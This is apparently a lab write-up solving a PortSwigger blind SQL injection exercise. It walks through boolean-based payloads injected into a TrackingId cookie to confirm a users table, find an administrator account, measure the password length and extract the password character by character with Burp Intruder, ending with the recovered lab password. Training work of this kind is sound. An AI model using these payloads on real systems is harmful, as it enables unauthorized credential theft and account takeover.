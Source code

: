 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a2277a84-8741-4b90-b15e-d88ad9c9eda9)


## Solution :

Query made -- 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6f499d35-6e1f-418e-8a34-f8b18889ea14)

*This how the session looks like where ```TrackingId and COOKIE-VALUE``` are shown and  Welcome back message is also displyed.*


TrackingID parameter is vulnerable. So it is vulnerablecan to blind SQL injection on trackingID parameter.

```If the Condition is true it will display the Welcome back message```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/fe425f15-d397-46a0-a068-7bcbdc6b4de8)

```If the Condition is not true it will not  display the Welcome back message```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=2-- '
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8490db5d-55ae-4aaa-8924-0aee2f53704e)

#### Check Whether the users table is present  -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'Ananthan' FROM users LIMIT 1) = 'Ananthan' --
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1c3a0a67-73de-444c-b0bb-ad5af810eb62)

It display the Welcome back message. So ```user``` table is present.


#### Check Whether the username administrator is present in users table -

```Here table name is users```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'Ananthan' FROM users WHERE username='administrator')='Ananthan
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/88dbcb08-b121-47a8-8b20-cad203b083d4)

It display the Welcome back message. So username ```administrator```  is present in the user table.

#### Check the length password of administrator-

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'Ananthan' FROM users WHERE username='administrator' AND LENGTH(password)>15))='Ananthan
```
 
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6db47b3e-85b7-413e-aaf1-8ce6dc413045)

```Here 15 indicates the length of the password and it returns the response as true means the length of the password is greater than 15 as it display the Welcome back message.```

```Then changed the length from 15 to 25 ```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a2bd8908-a70e-425e-87bd-efde7e4d2bbe)

 ```It returns the response as false means the length of the password is less than 25 as it didn't display the Welcome back message.So the password length must be in between 15-25.```

```To find the length of the password send qury to  Intruder then and Add the password length part [> 15] and select attack type as SNIPER```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0cb97d88-5d96-4803-a9d6-8a7c6f3c2345)

```Then go to  payload sleect payload type as numbers after that set from 15 to 25.```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d3b3e562-81b9-449c-97e6-d3d64aa52be2)

```Then go to Grep-Match in setting and type Welcome back and start attack.```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e55351a5-0c64-4f7a-8270-008268938e20)
 
```After brute-force we understood that 20 is length of the password because while checking if length(password) > 20 it FAILS it didn't display the Welcome back message.```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1eb1d632-3ab2-4d73-b790-7c106fe6aadd)

#### Finding the  20 character length password by Brute force -


```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator' )='Ananthan--
```
we will able get the first character of the password that is  ```u```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ca75666a-da6e-4522-a2bc-d8ab76615131)

```To get all character of the password togther we need to set the attack type as cluter bomb and set to payloads one is for the postion of the chractor and other one normal string payload and select 1st payload set as number[range 1-20] to detemine the postion of the character and other payload as bruteforce [min & max length = 1] to determine the character . And then go to Grep-Match in setting and type Welcome back and start attack.```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,$1$,1) FROM users WHERE username='administrator' )='$Ananthan$'--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3c5afa8f-6b01-4cf9-95b5-b734ab02728b)

Now, we have received 20 different payloads that provide us with the 'Welcome back' option

![Screenshot 2024-02-04 153346](https://github.com/ananthan05/Portswigger_labs/assets/140697378/bae24401-2cb9-48dd-8acc-5ffa58ba0e55)

Araange the payload2 characters according to the payload1 numbers in the correct order .

Password  = `uc5e5ot47gtajjumawrg`

Successfully logged in administrator.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/eb508fb6-0848-4c78-aeb2-a64df691d8e6)


